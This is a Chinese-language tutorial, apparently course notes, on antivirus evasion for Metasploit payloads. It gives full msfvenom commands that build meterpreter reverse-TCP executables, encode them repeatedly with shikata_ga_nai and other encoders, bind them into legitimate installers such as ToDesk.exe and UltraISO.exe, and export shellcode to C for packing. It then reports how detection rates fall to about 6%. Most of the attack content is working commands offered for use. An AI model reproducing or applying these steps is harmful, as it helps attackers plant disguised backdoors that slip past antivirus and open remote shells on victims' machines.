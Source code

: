 杀软是如何检测出恶意代码的？
特征码、启发式恶意软件检查和行为。
免杀是做什么？
对特征进行混淆，打乱代码，避免杀毒软件查杀
免杀的基本方法有哪些？
自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe

![1645511560404](02 msf编码免杀.assets/1645511560404.png)

通过该网站上传文件检测，发现杀毒率高达百分之50.

具体查毒链接：https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![image-20240919153936288](02 msf编码免杀/image-20240919153936288.png)	

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   msfvenom --list encoders   查看可以用编码模块

![1645511543145](02 msf编码免杀.assets/1645511543145.png)

我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有54%的杀毒软件报毒了，这说明各大厂商对msf的编码方式都有了很大的防御手段。

![image-20240919154222748](02 msf编码免杀/image-20240919154222748.png)	

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑，比如从windows复制一个todesk文件到kali，然后把后门payload绑定到todesk的exe文件上。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x ToDesk.exe -f exe -o payload2.exe
```

![image-20240919161223194](02 msf编码免杀/image-20240919161223194.png)	

上传进行查杀，查杀率是12.5%

![image-20240919161418904](02 msf编码免杀/image-20240919161418904.png)	

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata_ga_nai -x ToDesk.exe  -i 10 -f exe -o payload3.exe
```

![image-20240919161535693](02 msf编码免杀/image-20240919161535693.png)	

仅有6.25%查杀出有后门。

![image-20240919161917726](02 msf编码免杀/image-20240919161917726.png)	

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x ToDesk.exe  -i 20 -f exe -o payload4.exe

![image-20240919162626511](02 msf编码免杀/image-20240919162626511.png)	

也仅有6.25%查杀出有后门。

![image-20240919163037414](31.msf编码免杀/image-20240919163037414.png)	

# 五、MSF多重编码payload生成样本进行检测

后面这两种方式没有复现成功，会报错。该方法必须把msf更新到最新版本才可能执行成功。

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

这部分属于免杀部分，可以不看，后续看免杀专题。

```
1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c
```

![1645511458128](02 msf编码免杀.assets/1645511458128.png)

2、改c文件，并编译，并加壳

![1645511469800](02 msf编码免杀.assets/1645511469800.png)

随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具